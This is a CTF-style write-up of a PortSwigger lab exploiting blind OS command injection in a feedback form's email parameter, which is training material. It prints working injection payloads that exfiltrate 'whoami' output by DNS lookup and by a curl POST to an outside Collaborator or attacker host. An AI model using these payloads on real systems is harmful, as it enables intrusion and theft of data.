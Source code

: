 # Blind OS command injection with out-of-band data exfiltration

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration), you'll learn: Blind OS command injection with out-of-band data exfiltration! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141502.png)

In here, we can see there's a "Submit feedback" page:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141514.png)

Let's try to submit one:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141531.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141539.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141551.png)

When we clicked the "Submit feedback" button, it'll send a POST request to `/feedback/submit`, with parameter `csrf`, `name`, `email`, `subject`, `message`, and the response is an empty JSON data.

Now, if the web application want to send an email to somewhere, **it could be using a Linux command called `mail`.**

That being said, we can try to do **OS command injection** in the `email` parameter:

```bash
|| id%0a
```

We **pipe (parse) the previous command into `id`**. Also, **we’ll need to provide a newline character(`\n` or `%0a` in URL encoding)**, to execute the `id` command.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141622.png)

However, there's no output of our command in the response.

With that said, it might be vulnerable to blind OS command injection.

We can use an injected command that will trigger an out-of-band network interaction with a system that we control, using OAST techniques. For example:

```bash
& nslookup kgji2ohoyw.web-attacker.com &
```

This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.

- Go to Burp Suite's Collaborator, and copy the payload:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141701.png)

- Send the payload:

**Payload:**
```bash
|| nslookup wyy9cdjn926m58clco02e0hiy945svgk.oastify.com%0a
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141738.png)

- Burp Suite's Collaborator:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141757.png)

As you can see, we successfully **received 2 DNS lookups**, which means **the feedback function is indeed vulnerable to blind OS command injection**!!

**Besides from `nslookup`, we can also use `curl`:**
```bash
|| curl wyy9cdjn926m58clco02e0hiy945svgk.oastify.com%0a
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141833.png)

Once we've confirmed blind OS command injection, we can exfiltrate the output from injected commands using OAST techniques:

```bash
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

This will cause a DNS lookup to the attacker's domain containing the result of the `whoami` command:

```
wwwuser.kgji2ohoyw.web-attacker.com
```

**Again, besides from `nslookup`, we can also use `curl`:**
```
|| whoami | base64 | curl -d @- wyy9cdjn926m58clco02e0hiy945svgk.oastify.com%0a
```

It'll first execute `whoami` command. Then `base64` encode the `whoami` output. Finally, send the data via `curl` with POST method from **standard input**.

> In `curl` you can read `stdin` (standard input) and send the contents as the body of a `POST` request using the `-d @-` argument.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301142408.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301142433.png)

Nice! We received a HTTP POST request, with the exfiltrated output!

**Base64 decoded:**
```
peter-yFl51e
```

Now we can submit that username!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301142549.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301142554.png)

# What we've learned:

1. Blind OS command injection with out-of-band data exfiltration